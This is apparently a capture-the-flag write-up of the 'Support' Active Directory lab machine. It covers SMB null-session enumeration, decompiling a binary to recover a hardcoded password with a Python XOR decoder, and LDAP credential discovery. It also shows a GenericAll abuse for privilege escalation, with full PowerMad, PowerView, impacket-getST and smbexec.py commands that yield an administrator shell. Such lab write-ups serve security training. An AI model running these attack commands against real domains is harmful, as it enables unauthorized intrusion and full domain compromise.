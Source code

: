 # Support (AD)

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

### Null Session

I found that SMB accepts null credentials for this machine:

<figure><img src="../../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

Viewing the support-tools share, we find that it contains multiple binaries.

<figure><img src="../../../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

There's only one that was interesting, and it was the `UserInfo.exe` file. I took it back to my Windows VM and used dnSpy to open it.

### dnSpy

When decompiled, it seems that the binary was sending LDAP queries:

<figure><img src="../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

Looking around, I also found this `password` function.

<figure><img src="../../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

We can decode this easily using some Python and following their logic.

```python
import base64
enc_pass="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key=b"armando"

array = base64.b64decode (enc_pass)
array1 = []

for i in range(len(array)):
        array1.append(chr(array[i] ^ key[i % len(key)] ^ 0xDF))

array1 = ''.join(array1)
print (array1)
```

This would output the password.

<figure><img src="../../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

### LDAPSearch

Then, since the binary does LDAP queries, I wanted to use the username and password given by the binary to query LDAP.

<figure><img src="../../../.gitbook/assets/image (25) (3).png" alt=""><figcaption></figcaption></figure>

On analysing the output, I found a hidden password for the `support` user.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in as this `support` user.

<figure><img src="../../../.gitbook/assets/image (13) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in, I started Bloodhound to enumerate for me. Upon reviewing the contents, I saw this interesting set of permissions over the DC.

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

We can use PowerMad and PowerView to abuse the `GenericAll` privileges.

### GenericAll Abuse

We can use this set of commands to create a new user:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount (Get-Variable -Name "FAKE01").Value -Password $(ConvertTo-SecureString 'password@123' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "DC").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FAKE01").Value + '$')
Get-ADComputer (Get-Variable -Name "DC").Value -Properties PrincipalsAllowedToDelegateToAccount
# on Linux from here 
impacket-getST support.htb/fake01 -dc-ip <IP> -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
smbexec.py support/Administrator@support.htb -no-pass -k
```
{% endcode %}

This would spawn in a shell for us.

How it works is that we first create a new user that has the Constrained Delegation privilege. Then, we are able to impersonate the administrator and request a ticket that we can use to gain a shell with `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>
